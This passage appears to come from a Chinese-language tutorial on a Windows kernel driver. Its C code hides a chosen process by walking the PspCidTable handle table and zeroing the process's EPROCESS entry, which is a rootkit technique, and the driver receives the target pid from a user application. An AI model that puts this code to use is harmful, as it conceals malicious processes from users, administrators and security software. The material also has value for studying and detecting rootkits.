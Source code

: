 ```c
            }
        }
    }

    return FALSE;
}
```

有了 PspCidTable 之後，取得 PspCidTable 的 TableCode，由最後 3 bits 判斷這是幾級指標。根據不同級指標，要 Reference 不同次數的 Table 才可以找到 EPROCESS 的 Entry，找到目標 Process 的 Entry 後就把它清零。

```c
VOID NullPspCidTable(ULONG64 pid)
{
    // 取得 PspCidTable
    ULONG64 PspCidTable = 0;
    if (get_PspCidTable(&PspCidTable))
    {
        ULONG64 entry;

        // 取得 PspCidTable 中 _HANDLE_TABLE 結構裡的 TableCode，最後 3 bits 則代表幾級指標
        ULONG64 TableCode = *((ULONG64*)PspCidTable + 1);
        ULONG64 TableLevel = TableCode & 3;

        if ((ULONG)TableLevel == 2)
        {
            // 如果是三級指標，要 Reference 2 次 Table 才能找到 EPROCESS 的 Entry
            ULONG64 EprocessList = *(ULONG64*)(*(ULONG64*)(TableCode + 8 * (pid >> 19) - 2) + 8 * ((pid >> 10) & 0x1FF));
            entry = EprocessList + 4 * (pid & 0x3FF);
        }
        else if ((ULONG)TableLevel == 1)
        {
            // 如果是二級指標，只要 Reference 1 次 Table 才能找到 EPROCESS 的 Entry
            ULONG64 EprocessList = *(ULONG64*)(TableCode + 8 * (pid >> 10) - 1);
            entry = EprocessList + 4 * (pid & 0x3FF);
        }
        else
        {
            // 如果是一級指標，可以直接算出 EPROCESS 的 Entry
            entry = TableCode + 4 * pid;
        }

        // 將目標 Process 的 Entry 清零
        *(PULONG64)entry = 0;
    }
}
```


### Dispatcher
接收從應用程式傳來的 pid，並隱藏目標 Process。
